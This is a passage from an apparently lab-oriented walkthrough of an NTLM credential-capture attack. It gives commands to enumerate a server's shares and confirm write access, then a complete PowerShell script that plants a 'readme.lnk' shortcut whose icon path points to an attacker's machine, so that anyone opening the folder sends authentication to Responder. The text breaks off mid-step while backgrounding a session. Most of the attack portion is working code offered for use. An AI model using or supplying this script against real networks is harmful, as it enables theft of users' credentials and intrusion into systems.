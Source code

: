 **(Optional) Get share paths (PowerShell remoting may be blocked in some labs):**
```cmd
wmic /node:"TARGET-SERVER" share get name,path
```

### 2) Confirm write access to the target share

```cmd
net use Z: \\TARGET-SERVER\hackme /user:DOMAIN\username Password1
echo test > Z:\writetest.txt
net use Z: /delete
```

- If `writetest.txt` is created, you have write permissions.

### 3) Switch to PowerShell to create the `.lnk`

```cmd
powershell -NoProfile
```

**Paste the script (edit IP/paths):**
```powershell
# Attacker IP (your Kali box)
$attacker = "192.0.2.10"   # <-- change to your Kali IP

# Destination: UNC path to the writable share
$dest = "\\TARGET-SERVER\hackme\readme.lnk"

# Create the shortcut
$shell = New-Object -ComObject WScript.Shell
$lnk   = $shell.CreateShortcut($dest)
$lnk.TargetPath       = "cmd.exe"                  # harmless target
$lnk.Arguments        = "/c exit"
$lnk.WorkingDirectory = "$env:SystemRoot\System32"

# KEY: UNC icon path forces SMB authentication on folder view
$lnk.IconLocation     = "\\$attacker\icon\foo.ico"

$lnk.Description      = "Readme"
$lnk.Save()
```

> **Why this works:** Explorer resolves the custom icon by fetching `\\ATTACKER\icon\foo.ico`. That triggers an SMB authentication attempt to your box, where Responder/SMB server can capture NTLM.

### 4) **Background** PowerShell (don’t kill the session)

Press `CTRL+Z`, then:

```
Background session 1? [y/N]  y
```

You’re back at:
